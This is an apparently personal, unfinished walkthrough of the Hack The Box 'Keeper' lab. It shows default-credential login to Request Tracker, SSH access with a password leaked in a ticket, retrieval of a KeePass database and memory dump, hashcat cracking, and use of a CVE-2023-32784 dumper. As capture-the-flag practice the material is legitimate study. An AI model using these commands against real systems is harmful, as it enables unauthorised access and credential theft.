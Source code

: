 tickets.keeper.htb/rt/

> Add these to `/etc/hosts`:

    10.129.98.9  tickets.keeper.htb
    10.129.98.9  keeper.htb

"»|« RT 4.4.4+dfsg-2ubuntu1 (Debian) Copyright 1996-2019 Best Practical Solutions, LLC. "

Best Practical Request Tracker...what is it?

Doesn't matter, login is `root:password`

Apparently Lise Noorgard ( http://tickets.keeper.htb/rt/User/Summary.html?id=27 ) removed a KeePass attachment and downloaded it to her home dir.

I wonder what her password is.

Comment: `New user. Initial password set to Welcome2023!`

Maybe we can run:

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!

We have user flag!

Now to download that file in the user's home directory.

    scp lnorgaard@tickets.keeper.htb:RT30000.zip ./
    Welcome2023!

Broken pipe. Let's try something else.

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!
    python -m http.server
    <visit http://tickets.keeper.htb:8000/ >
    

Now we have a `.dmp` and a KeePass file.

We can try to crack the KeePass file with Hashcat.

    keepass2john passcodes.kdbx > passcodes.hash
    hashcat -h | grep KeePass
    hashcat -m 13400 -a 0 -w 1 passcodes.hash /usr/share/wordlists/rockyou.txt

Exhausted keyspace! It's not in `rockyou.txt`.

I cheated a bit. Apparently I need to search the memory dump for these non-ASCII symbols:

    æ
    ø

TODO: 

    https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#install-debugging-tools-for-windows

    https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/

Okay. Maybe " CVE-2023-32784 " is related?

https://github.com/vdohney/keepass-password-dumper ?

Well, we get:

    dotnet run .\KeePassDumpFull.dmp

    Combined: *{,, l, `, -, ', ], A, I, :, =, _, c, M}dgr*d med fl*de

    Danish red berry pudding? `Rødgrød med fløde`?

    Rødgrød med fløde
    rødgrødmedfløde
    RødgrødMedFløde
    rodgrodmedflode
    r*dgr*dmedfl*de
    Rød grød med fløde
    rød grød med fløde
    m*dgr*dmedfl*de


None of those work. I want to mutate the wordlist `wordlist-berry-pudding.txt`.

    hashcat -m 13400 -a 0 -r rules --debug-mode=1 passcodes.hash wordlist-berry-pudding.txt
